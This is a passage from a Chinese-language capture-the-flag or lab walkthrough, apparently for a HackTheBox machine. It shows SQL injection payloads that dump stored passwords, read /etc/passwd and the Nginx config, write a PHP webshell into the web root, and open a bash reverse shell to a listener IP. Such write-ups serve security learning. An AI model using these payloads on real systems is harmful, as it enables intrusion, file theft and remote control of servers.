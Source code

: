 ```sql
-2 union select 1,2,group_concat('\n',name,':',password) from uhc.users-- -
```

![image-20220407112322465](https://s2.loli.net/2022/04/07/JUXfkdngHwLiuIT.png)

但是我们已经有`admin`的密码了，所以这些内容对我们没有什么帮助。接下来看看注入点能不能读取文件，如下图，成功读到了`/etc/passwd`文件

```mysql
-2 union select 1,2,load_file('/etc/passwd')-- -
```

![image-20220407112451809](https://s2.loli.net/2022/04/07/2p6nuryEGcMdgto.png)

接下来的思路是通过`SQL注入`往站点写`shell`，来获得服务器权限，但是先要知道站点的真实路径

### SQL注入写shell

在最开始的端口扫描中可以看到，该站点使用了`Nginx`作为中间件，我们可以读取`Nginx`的站点配置文件，来查看配置的站点根目录。尝试读取`Nginx`的站点配置文件的默认路径

```sql
-2 union select 1,2,load_file('/etc/nginx/sites-enabled/default')-- -
```

![image-20220407113033230](https://s2.loli.net/2022/04/07/OmrVS3ct9DYBngK.png)

如上图，在该配置文件中存在网站根目录的路径，之后我们就可以往这个路径写`shell`，来得到服务器的初步控制权

通过`into outfile`向网站根目录写入`0.php`，返回`服务器错误`，但是不影响

```sql
-2 union select 1,2,'<?=`$_GET[1]`?>' into outfile'/srv/altered/public/0.php'-- -
```

![image-20220407114434102](https://s2.loli.net/2022/04/07/uj84zPFgpCSkvtB.png)

访问我们的`shell`，能成功执行系统命令

![image-20220407114451243](https://s2.loli.net/2022/04/07/gcQ12z8SUTPbjMO.png)

## 权限提升

### 反弹shell

通过我们写入的`webshell`，反弹一个`shell`回来，翻遍后续的操作

```
bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'
```

![image-20220407114531995](https://s2.loli.net/2022/04/07/9lCLgJHN4wdBRPG.png)

![image-20220407114710865](https://s2.loli.net/2022/04/07/PWawh73XpYFUqfx.png)

本地开启的监听接收到了反弹`shell`

通过以下命令，将反弹回来的`shell`升级为完全交互式的`shell`
